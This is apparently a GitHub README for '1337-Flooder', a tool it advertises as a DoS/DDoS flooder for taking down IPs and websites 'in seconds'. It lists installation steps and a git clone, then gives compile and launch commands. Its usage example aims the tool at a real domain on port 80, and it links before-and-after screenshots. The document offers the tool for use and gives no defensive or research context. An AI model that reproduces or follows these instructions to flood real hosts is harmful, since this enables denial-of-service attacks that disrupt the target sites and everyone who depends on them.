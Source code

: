# 1337-Flooder

## 1337 Flooder is a DoS/DDoS tool to take down IP/Websites in seconds!


## Installation

```
1. apt update
```
```
2. apt upgrade
```
```
3. pkg install git
```
```
4. git clone https://github.com/ghostof1337projects/1337-flooder
```

```
5. pkg install clang
```

## Usage

```bash
gcc -o 1337flooder 1337flooder.c
./1337-flooder IP/Website PORT

EXAMPLE:
./1337-flooder baiamare.ro 80
```

## Screenshot

### Before
![ss](https://cdn.discordapp.com/attachments/1168461103257358337/1171034071376343080/image.png?ex=655b3577&is=6548c077&hm=412e62093f1882040e03ec3bd4617a3bc7e1594038873ce997fa5cafd0ff3f39&)

### After
![ss](https://media.discordapp.net/attachments/1168461103257358337/1171033898554236989/image-50.png?ex=655b354e&is=6548c04e&hm=535eaabd0ca03b13b64c0d0dcb0f7c2f5e4bbc1ed02c2f8bddbf85f75efee4ff&=&width=996&height=491)
